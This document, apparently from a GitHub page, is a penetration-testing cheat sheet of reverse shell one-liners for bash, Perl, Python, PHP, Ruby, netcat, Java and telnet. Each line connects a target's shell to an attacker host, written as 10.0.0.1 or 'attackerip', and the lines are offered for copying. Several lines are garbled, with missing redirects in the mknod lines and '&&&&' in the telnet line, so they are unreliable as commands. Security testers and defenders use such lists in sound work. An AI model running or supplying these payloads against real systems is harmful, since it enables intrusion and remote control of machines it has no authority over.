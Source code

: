 ## How to Create a Reverse Shell to Remotely Execute Commands

If you’re lucky enough to find a command execution vulnerability during a penetration test, pretty soon afterward you’ll probably want an interactive shell. If it’s not possible to add a new account / SSH key / .rhosts file and just log in, your next step is likely to be either trowing back a reverse shell or binding a shell to a TCP port.

Your options for creating a reverse shell are limited by the scripting languages installed on the target system – although you can probably download a binary program if you are properly prepared. The examples shown are tailored to Unix-like systems. Some of the examples below should also work on Windows if you use substitute "`/bin/sh -i`" with "`cmd.exe`". Each of the methods below is aimed to be a one-liner that you can copy/paste. As such they’re quite short lines, but not very readable.

* * *

###### BASH

Some versions of bash can send you a reverse shell (this was tested on Ubuntu 18.04)

```bash
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
```

Or

```bash
exec /bin/bash 0&0 2>&0
```

Or

```bash
0<&196;exec 196<>/dev/tcp/attackerip/4444; sh <&196 >&196 2>&196
```

Or

```bash
exec 5<>/dev/tcp/attackerip/4444
cat <&5 | while read line; do $line 2>&5 >&5; done
```

Or

```bash
while read line 0<&5; do $line 2>&5 >&5; done
```

* * *

###### PERL

Here’s a short, feature-free version that depends on /bin/sh:

```bash
perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

Perl reverse shell that does not depend on /bin/sh:

```bash
perl -MIO -e '$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"attackerip:4444");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
```

If the target system is running Windows use the following one-liner:

```bash
perl -MIO -e '$c=new IO::Socket::INET(PeerAddr,"attackerip:4444");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
```

* * *

###### PYTHON

This was tested under Linux / Python 2.7

```bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

* * *

###### PHP

This code assumes that the TCP connection uses file descriptor 3. This worked on the most tested system. If it doesn't work, try 4, 5, 6…

```bash
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```

* * *

###### RUBY

Short version that depends on /bin/sh:

```bash
ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

Longer Ruby reverse shell that does not depend on /bin/sh:

```bash
ruby -rsocket -e 'exit if fork;c=TCPSocket.new("attackerip","4444");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
```

If the target system is running Windows use the following one-liner:

```bash
ruby -rsocket -e 'c=TCPSocket.new("attackerip","4444");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
```

* * *

###### NETCAT

Netcat is rarely present on production systems and even if it is there are several versions of Netcat, some of which don’t support the -e option.

```bash
nc -e /bin/sh 10.0.0.1 1234
```

Others possible Netcat reverse shells, depending on the Netcat version and compilation flags:

```bash
nc -c /bin/sh attackerip 4444
```

Or

```bash
/bin/sh | nc attackerip 4444
```

Or

```bash
rm -f /tmp/p; mknod /tmp/p p && nc attackerip 4444 0/tmp/p
```

* * *

###### JAVA

Always present when you need it, the "Java" language can also be a very good solution to establish a reverse shell.

```bash
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```

* * *

###### TELNET

Of course, you can also use Telnet as an alternative for Netcat:

```bash
rm -f /tmp/p; mknod /tmp/p p &&&& telnet attackerip 4444 0/tmp/p
```

Or

```bash
telnet attackerip 4444 | /bin/bash | telnet attackerip 4445
```
